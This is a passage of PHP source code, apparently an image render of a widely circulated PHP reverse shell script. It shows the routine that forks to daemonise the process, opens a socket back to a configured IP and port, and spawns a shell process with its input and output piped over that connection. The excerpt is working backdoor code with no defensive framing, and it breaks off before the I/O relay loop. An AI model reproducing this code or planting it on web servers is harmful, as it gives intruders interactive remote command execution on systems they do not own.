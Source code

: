```php
//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
```